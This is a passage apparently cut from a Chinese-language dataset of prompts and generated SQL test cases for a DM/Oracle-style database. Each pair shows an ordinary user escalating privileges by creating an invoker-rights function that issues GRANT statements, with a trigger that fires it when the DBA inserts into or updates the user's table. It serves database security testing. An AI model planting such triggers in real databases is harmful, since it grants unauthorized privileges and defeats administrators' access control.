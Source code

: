 --创建触发器，调用函数
CREATE OR REPLACE TRIGGER INSERT_GRANT
AFTER INSERT ON USER1.T2
FOR EACH ROW
BEGIN
 --调用函数
 CALL GRANT_PRIVILEGE();
END;

--DBA用户
--插入数据，触发触发器进行授权
INSERT INTO USER1.T2 VALUES(1, 'SYSDBA');

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权任意该用户未有的权限，创建更新前触发器，执行该函数。使用DBA用户更新user1用户的表，触发触发器调用函数进行授权,"‘--DBA用户
--创建表
CREATE TABLE SYSDBA.TABLE1(ID INT, NAME VARCHAR(20));

--USER1用户
--创建表
CREATE TABLE T3(ID INT, NAME VARCHAR(20));

--插入数据
INSERT INTO T3 VALUES(1, 'USER1');

--创建授权函数
CREATE OR REPLACE FUNCTION GRANT_ALL_PRIVILEGE
RETURN VARCHAR2
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT ALL PRIVILEGES ON SYSDBA.TABLE1 TO USER1';
    COMMIT;
    RETURN 'GRANTED';
END;

--创建触发器，调用函数
CREATE OR REPLACE TRIGGER UPDATE_GRANT_ALL
BEFORE UPDATE ON USER1.T3
FOR EACH ROW
BEGIN
 --调用函数
 CALL GRANT_ALL_PRIVILEGE();
END;

--DBA用户
--更新数据，触发触发器进行授权
UPDATE USER1.T3 SET NAME = 'SYSDBA' WHERE ID = 1;

--USER1用户
--查看权限
SELECT * FROM USER_TAB_PRIVS;"
生成一组测试用例，能够反应触发器通过调用函数实现间接提权功能,user1用户是普通用户，创建函数执行授权任意该用户未有的权限，创建更新后触发器，执行该函数。使用DBA用户更新user1用户的表，触发触发器调用函数进行授权,"‘--USER1用户
--创建表
CREATE TABLE T4(ID INT, NAME VARCHAR(20));
